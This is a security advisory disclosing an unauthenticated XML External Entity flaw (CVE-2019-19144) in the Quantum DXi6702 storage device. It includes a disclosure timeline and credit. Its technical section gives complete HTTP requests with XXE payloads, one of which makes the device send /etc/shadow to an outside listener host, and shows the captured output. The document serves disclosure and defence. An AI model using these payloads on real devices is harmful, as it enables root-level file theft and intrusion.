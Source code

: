 # Quantum DXi6702 - XML External Entity Injection


## Vendors

Quantum Corporation


## Affected Products

Quantum DXi6702 2.3.0.3 (11449-53631 Build304)


## Summary

The Quantum DXi6702 Network Attached Storage device processes user-supplied XML data in unsafe ways, resulting in XML External Entity Injection. This issue can allow for an unauthenticated attacker to read arbitrary files from the device with root privileges.


## Mitigation

* No mitigations are known at this time.


## Credit

These issues were found by Justin Kennedy of Atredis Partners


## References

 * CVE-2019-19144


## Report Timeline

2019-08-22: Atredis Partners provided a copy of this advisory to Quantum Corporation by email.

2019-10-08: Atredis Partners provided a copy of this advisory to CERT/CC.

2019-11-21: Atredis Partners published this advisory.

## Technical Details

The Quantum DXi6702 authentication process requires the client to send their credentials as an XML document:

```
POST /rest/Users?action=authenticate HTTP/1.1
Host: 192.168.1.2
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:67.0) Gecko/20100101 Firefox/67.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://192.168.1.2
Content-Type: text/xml
X-Requested-With: XMLHttpRequest
Content-Length: 119
DNT: 1
Connection: close

<Credentials><UserName>admin</UserName><Password>password</Password><ClientInfo>GUI</ClientInfo><id></id></Credentials>
```

By setting up a `netcat` listener and specifying an XML External Entity, the device will connect to the `netcat` listener, confirming that XML External Entities are enabled:

```
POST /rest/Users?action=authenticate HTTP/1.1
Host: 192.168.1.2
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:67.0) Gecko/20100101 Firefox/67.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://192.168.1.2
Content-Type: text/xml
X-Requested-With: XMLHttpRequest
Content-Length: 252
DNT: 1
Connection: close

<?xml version="1.0" encoding="ISO-8859-1"?><!DOCTYPE foo [ <!ELEMENT foo ANY ><!ENTITY xxe SYSTEM "http://192.168.1.3:8881/?xxe" >]>
<Credentials><UserName>&xxe;</UserName><Password>admin</Password><ClientInfo>GUI</ClientInfo><id></id></Credentials>
```

```
# nc -l -v -p 8881
Listening on [0.0.0.0] (family 0, port 8881)
Connection from [192.168.1.2] port 8881 [tcp/*] accepted (family 2, sport 50547)
GET /?xxe HTTP/1.1
User-Agent: Java/1.6.0_26
Host: 192.168.1.3:8881
Accept: text/html, image/gif, image/jpeg, *; q=.2, */*; q=.2
Connection: keep-alive
```

Using the `xxeserve` server tool by joernchen, the `/etc/shadow` file can be extracted, confirming that the process running the XML parser is running with root privileges:

```
POST /rest/Users?action=authenticate HTTP/1.1
Host: 192.168.1.2
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:67.0) Gecko/20100101 Firefox/67.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://192.168.1.2
Content-Type: text/xml
X-Requested-With: XMLHttpRequest
Content-Length: 159
DNT: 1
Connection: close

<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE root [
<!ENTITY % remote SYSTEM "http://192.168.1.3:8888/xml?f=/etc/shadow">
%remote;
%int;
%trick;]>
```

```
$ ruby xxeserve.rb 8888
192.168.1.2 - - [24/Jun/2019:10:18:00 -0500] "GET /?p=root:$1$<redacted>:15622:0:99999:7:::
bin:*:15622:0:99999:7:::
daemon:*:15622:0:99999:7:::
adm:*:15622:0:99999:7:::
lp:*:15622:0:99999:7:::
sync:*:15622:0:99999:7:::
shutdown:*:15622:0:99999:7:::
halt:*:15622:0:99999:7:::
mail:*:15622:0:99999:7:::
news:*:15622:0:99999:7:::
uucp:*:15622:0:99999:7:::
```
